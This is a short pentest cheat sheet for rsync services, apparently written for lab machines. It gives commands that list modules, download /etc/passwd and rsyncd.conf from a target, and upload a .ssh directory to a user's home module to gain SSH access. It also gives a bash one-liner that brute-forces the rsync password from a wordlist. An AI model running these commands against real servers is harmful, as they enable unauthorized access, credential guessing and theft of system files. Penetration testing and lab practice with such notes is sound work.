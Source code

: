 ```yaml
---
title: "rsync"
date: 2024-7-12
tags: ["rsync"]
---
```


---
### Basic Commands

<div>

```bash
# List directory ('/')
rsync --list-only -a rsync://10.10.11.10/
``` 

```bash
# List directory ('/') with ipv6
rsync --list-only -a rsync://[dead:beef::1234:5678:90ab:cdef]:8730/
``` 

```bash
# List a file
rsync --list-only -a rsync://10.10.11.10/etc/passwd
```

```bash
# List files (wildcard)
rsync --list-only -a rsync://10.10.11.10/etc/rsync*
```

```bash
# Get a file
rsync -a rsync://10.10.11.10/etc/passwd .
```

```bash
# Get files (wildcard)
rsync -a rsync://10.10.11.10/etc/rsync* .
```

```bash
# Copy files recusively to remote (With Creds)
export RSYNC_PASSWORD=<PASSWORD>; rsync -aR .ssh/ rsync://<USER>@10.10.11.10/home_user/
```

</div>

<br>

---

### Bruteforce rsync password

<div>

```bash
# Get user from /etc/passwd, Get module from /etc/rsyncrsyncd.conf (e.g. user user and module home_user)
cat passwords.txt | while read password; do export RSYNC_PASSWORD=${password}; rsync --list-only rsync://user@10.10.11.10/home_user 2>&1 | grep -q "auth failed on module home_user" || { echo "[+] Found: ${RSYNC_PASSWORD}"; break; } done
```

</div>

<br>